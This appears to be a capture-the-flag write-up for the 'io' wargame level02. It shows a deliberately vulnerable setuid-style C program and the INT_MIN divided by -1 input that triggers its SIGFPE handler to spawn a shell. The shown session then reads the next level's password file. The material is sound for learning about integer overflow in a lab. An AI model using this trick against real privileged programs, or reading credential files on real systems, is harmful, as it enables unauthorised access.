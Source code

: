 1. Check out the source file to see what we need to do:
   ```
   //a little fun brought to you by bla
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <signal.h>
   #include <setjmp.h>
   
   void catcher(int a)
   {
        setresuid(geteuid(),geteuid(),geteuid());
        printf("WIN!\n");
        system("/bin/sh");
        exit(0);
   }
   
   int main(int argc, char **argv)
   {
        puts("source code is available in level02.c\n");
   
        if (argc != 3 || !atoi(argv[2]))
            return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
   }
   ```

2. We see that there's a signal to catch a SIGFPE: a floating point exception.
   Something like this can be caused by dividing by zero or some other similar
   exception (as you'll see below). We also see that there's a check to make sure
   we supply two command line arguments, and the second argument can not be zero.
   As the final return line shows, the first argument is dividied by the second
   and the absolute value of this operation is returned. Since argv[2] can't be
   zero, we need to find some other way to cause an exception.

3. Now here's the solution:
   ```
   level2@io:/levels$ ./level02 -2147483648 -1
   source code is available in level02.c

   WIN!
   sh-4.2$ cat /home/level3/.pass
   [Password to level3]
   ```

* To be perfectly honest, I'm not totally sure why this works. I played around with
these numbers for a little while and I just happened to get the right ones. I'll
look into a bit more to figure out exactly why this causes a SIGFPE.

Update: After doing some more playing in gdb and refreshing my mind a bit, I think I
understand the issue. Signed numbers are represented by the most significant
bit being 1. So the number 2147483647 is:
`0x7fffffff -> 0111 1111 1111 1111 1111 1111 1111 1111`
and that is the largest positive 32 bit signed integer value. So when we add 1 to
it it becomes 2147483648 which is represented as:
`0x80000000 -> 1000 0000 0000 0000 0000 0000 0000 0000`
Now we've overflowed and we have a very large negative number. When diving by -1,
you give the dividend the opposite sign. So when we try to take the opposite sign
of -2147483648 the answer would obviously be 2147483648. The problem there is that
that number can't be represented in the world of 32 bit signed integers! Hence the
SIGFPE. I believe that's the full explanation.

